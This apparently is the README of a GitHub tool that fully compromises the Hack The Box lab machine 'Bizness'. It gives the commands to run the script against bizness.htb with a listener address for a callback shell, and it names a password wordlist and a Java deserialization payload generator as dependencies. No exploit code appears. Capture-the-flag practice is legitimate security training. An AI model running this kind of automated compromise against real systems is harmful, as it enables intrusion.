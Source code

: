 ![image](https://github.com/MAWK0235/HTB-B1ZN3SS-FULL-PWN/assets/90433993/713dc37a-eda7-4bd3-bac6-226b3cfa896a)


$ pip install -r requirements.txt


$ Python3 fullpwnBizness_By_MAWK.py https://bizness.htb/ <LHOST>  

make sure rockyou.txt and ysoserial are all in your executing directory
